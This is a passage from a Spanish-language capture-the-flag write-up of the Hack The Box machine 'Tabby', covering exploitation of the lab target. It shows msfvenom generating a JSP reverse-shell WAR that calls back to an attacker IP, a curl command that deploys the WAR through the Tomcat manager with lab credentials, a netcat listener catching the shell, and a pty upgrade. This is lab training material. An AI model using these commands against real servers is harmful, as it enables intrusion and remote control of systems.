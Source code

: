 

## Explotación

Leyendo la [documentación](http://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html#Deploy_A_New_Application_Archive_(WAR)_Remotely) de Apache Tomcat 9, encontramos que hay una forma de desplegar un archivo `.war` de forma remota, realizando una solicitud `PUT` al servidor.

Para esto, primero vamos a crear un payload con msfvenom de la siguiente manera:

```bash
┌─[root@parrot]─[/home/nicolasmira101]                                    
└──╼ #msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.26 LPORT=1234 -f war > code.war            
```

Ahora, vamos a desplegar el archivo `.war` que creamos anteriormente:

```bash
┌─[root@parrot]─[/home/nicolasmira101]                                    
└──╼ #curl --user tomcat:'$3cureP4s5w0rd123!' --upload-file code.war http://10.10.10.194:8080/manager/text/deploy?path=/code  
```

Antes de ejecutar el archivo, vamos a crear nuestra sesión en netcat para obtener la shell reversa

```bash
┌─[root@parrot]─[/home/nicolasmira101]
└──╼ #nc -nvlp 1234
listening on [any] 1234 ...
```

Y ahora sí ejecutando el archivo escribiendo lo siguiente en el navegador:

```bash
http://10.10.10.194:8080/code/
```

Volvemos a netcat y como podemos observar, ya tenemos una shell

```bash
┌──[root@parrot]─[/home/nicolasmira101]
└──╼ #nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.26] from (UNKNOWN) [10.10.10.194] 56188
whoami
tomcat
python3 -c 'import pty;pty.spawn("/bin/bash")'
tomcat@tabby:/var/lib/tomcat9$ 
```

Enumerando manualmente, encontramos en el directorio `/var/www/html/files` un archivo `.zip`

```bash
tomcat@tabby:/var/www/html/files$ ls
ls                               
16162020_backup.zip  archive  revoked_certs  statement 
```

Como estos archivos se encuentran dentro del directorio del servidor web, con `wget` lo descargamos directamente en nuestra máquina
